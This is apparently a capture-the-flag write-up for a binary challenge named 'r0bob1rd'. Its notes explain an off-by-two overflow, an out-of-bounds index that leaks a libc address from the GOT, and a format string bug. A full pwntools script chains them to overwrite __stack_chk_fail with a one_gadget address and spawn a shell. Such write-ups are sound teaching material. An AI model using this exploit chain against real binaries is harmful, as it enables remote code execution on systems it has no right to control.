







- Always do a checksec first
    - 
    - Canary + NX -> overwrite GOT is my immediate thought
- Let's first throw this binary into ghidra to analyze the bugs in the code:
    - 
        - Ok, seems like `operation()` is the important function here
    - 
        - We got 3 problems here. 
            1. buffer is 104 bytes but fgets allows 106 bytes -> overflow
            2. the intended route in `if` dereferences `robobirdNames[local_7c]`, but if we input < 0 or > 9 then it does not do that, instead it hands %s the computed address itself (robobirdNames + local_7c*8), So %s reads memory starting right at wherever that arithmetic lands, as if it were a string.
            3. `printf` has a format string vuln
- Let's chain these all together!

- First, notice that the variable `robobirdNames` sits really close to the .got table
    - 
- So it might be possible that a negative `local_7c`(what our input is, where we are on the stack) walk us back into .got
- How do we know how far we need to go???
    - We need to first know our `stdin` sits on top -> `robobirdNames (.data)` -> functions at .got
    - So we wanna find out `robobirdNames`' address, and also a function's address on the .got table to use, this way we can understand what input we need to, input due to:
        - `printf("\nYou\'ve chosen: %s",robobirdNames + (long)local_7c * 8);` (note that we want this %s to dereference the chosen functions' real libc address)
- 
    - Let's use the function `fflush` on the .got table (we can use most of them tbh)
- 
- Now what we do, according to the equation above, we know that:
> robobirdNames + (input * 8) = MUST_BE_GOT_ADDRESS
- So, 
    - We can indeed find out we want to input `-9` to leak `fflush`'s absolute address on libc (because %s dereferenced it, and we have to do it because ASLR is in play)
- Now, if we have the address on libc, everything is suddenly easier! We just deduct this address with the offset of `fflush`, then we obtain libc base. Then we can call `one_gadget` to gain our shell!
- However, we need to get "/bin/sh" into the right register, via the format string vulnerability.
- We want to write `one_gadget`'s value at the address of `__stack_chk_fail`'s GOT slot. Lastly, we just have to pad to 106 bytes due to `fgets` and then send the payload, then we should have the shell.
```python
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
continue
"""

exe = './r0bob1rd'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

library = 'glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)


################################### exploit below

sh = start()

## STAGE 1: Leak and Parse LIBC Runtime Leak + Relocate LIBC Base

sh.sendlineafter(b'>', b'-9')

sh.recvuntil(b'sen: ')
get = unpack(sh.recv(6) + b'\x00' * 2)
log.info(f'RECEIVED --> {hex(get)}')
libc.address = get - libc.sym['fflush']
log.success(f'LIBC BASE -> {hex(libc.address)}')

gadgets = (0xe3b01, 0xe3b04, 0xe3bf0) # found via one_gadget [lib]
one_gadget = libc.address + gadgets[0]
log.success(f'ONE GADGET --> {hex(one_gadget)}')

## STAGE 2: Overwrite _stack_chk_fail() + Trigger it

payload = fmtstr_payload(8, {elf.got["__stack_chk_fail"]:one_gadget}, write_size="short")

sh.sendlineafter(b'>', payload.ljust(106, b'\x90'))
# gdb.attach(sh)

sh.interactive()
```

